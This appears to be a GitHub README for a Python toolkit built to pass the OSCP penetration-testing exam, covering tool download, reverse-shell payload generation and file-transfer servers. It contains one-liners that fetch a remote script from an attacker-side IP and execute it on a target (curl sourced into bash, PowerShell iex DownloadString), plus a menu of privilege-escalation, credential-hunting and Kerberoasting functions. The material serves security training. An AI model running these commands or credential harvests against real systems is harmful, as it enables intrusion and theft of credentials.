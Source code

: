 # OSCP python support tools

A small set of python tools developed to pass OSCP, this set consists of 3 scripts for downloading tools (toolpy), generating payloads for reverse shells (shellpy) and transferring files (servpy).
Shellpy can be found here --> https://github.com/KermitPurple96/Shellpy

## Install
pip install pyftpdlib pyopenssl colorama psutil

## Usage

1. Download tools
```bash
toolpy -t mimikatz -a x64  
```
```bash
-h, --help 
-t {tool}
-s {windows,linux}, --system {windows,linux}
-a {x86,x64}, --arch {x86,x64}
```

2. Run a server
```bash
usage: servpy2 [-h] [-p PORT] [-u USER] [-f FILE] [-i INTERFACE] [-pw PASSWORD] [-t]
               {http,ftp,smb,https,ftps,socat,nc,scp,servers,paths}

Simple multi-service server with optional authentication

positional arguments:
  {http,ftp,smb,https,ftps,socat,nc,scp,servers,paths}
                        Type of service to run (http, ftp, smb)

options:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port number to use (default: 80)
  -u USER, --user USER  Username for authentication (optional)
  -f FILE, --file FILE  Path to a file to be used by the server
  -i INTERFACE, --interface INTERFACE
                        Interface IP
  -pw PASSWORD, --password PASSWORD
                        Password for authentication (optional)
  -t, --transfer        Just print file transfer examples

Examples:
     servpy https -p 8080 -u kermit -pw Password123 -f mimikatz.exe
     servpy smb -u kermit -pw kermit123 -f mimikatz.exe -t
     servpy servers - Show server one liners
     servpy paths - Recomended paths for downloads
```

3. Load the script on Target Machine

For Linux
```bash
. <(curl 10.10.10.10/recon.sh)
```

For Windows
```powershell
iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))
```

Example funtions on windows:
```
PS> iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))

     ___  __    ___   ___
    /___\/ _\  / __\ / _ \  _ __ ___  ___ ___  _ __
   //  //\ \  / /   / /_)/ | '__/ _ \/ __/ _ \| '_ \
  / \_// _\ \/ /___/ ___/  | | |  __/ (_| (_) | | | |
  \___/  \__/\____/\/      |_|  \___|\___\___/|_| |_|

========================================================
                                            DannyDB@~>

[*] Auxiliary Tools:
    - aux.upload [file]               : Upload files to HTTP server via POST
    - aux.download [file]             : Perform GET to retrieve files

[*] Auxiliary Recon:
    - recon.dateScan                  : Files modified between two dates
    - recon.dateLast                  : Files modified less than 15 minutes ago
    - recon.portscan <host> [1-1024]  : Perform port scanning
    - recon.pingscan 10.10.10.        : Perform ping scan of /24 subnet
    - recon.pspy                      : Similar to pspy script
    - recon.servInfo                  : Information abaut a server

[*] General Recon:
    - recon.sys                       : System information
    - recon.users                     : User information
    - recon.programs                  : Program information
    - recon.protections               : Protection information
    - recon.process                   : Process information
    - recon.networks                  : Network information
    - recon.acl                       : File permission information

[*] Privesc Recon:
    - priv.installElev                : AlwaysInstallElevated privilege
    - priv.serv.dir                   : Service directory privilege
    - priv.serv.reg                   : Service registry privilege
    - priv.serv.unq                   : Unquoted service privilege
    - priv.cred.files                 : Known credential files privilege
    - priv.cred.history               : Credential history privilege
    - priv.owned.files                : File owner privilege
    - priv.search.fname               : Credential in file name privilege
    - priv.search.fcontent            : Credential in file content privilege
    - priv.search.sshkeys             : SSH file privilege
    - priv.search.register            : Credential in registry privilege
    - priv.search.events              : Credential in events (Admin.) privilege
    - priv.autorun                    : Scheduled tasks privilege

[*] AD Recon:
    - ad.psremote                     : Remote PowerShell privilege
    - ad.computers                    : Domain computers privilege
    - ad.users                        : Domain users privilege
    - ad.user <user>                  : Information about a user
    - ad.listusers                    : List common names for bruteforce
    - ad.groups                       : Domain groups privilege
    - ad.group <group>                : Information about a group
    - ad.spn                          : Kerberoasting accounts
    - ad.asrep                        : AS-REP Roasting users privilege

```


## Configuration

- On httpTempServ.py add your own into SHORTCUTS dictionary, add your own aliases pointing the file path to quickly access.
- Make sure that the aliases for recon.sh and recon.ps1 point to the correct path in your file system.
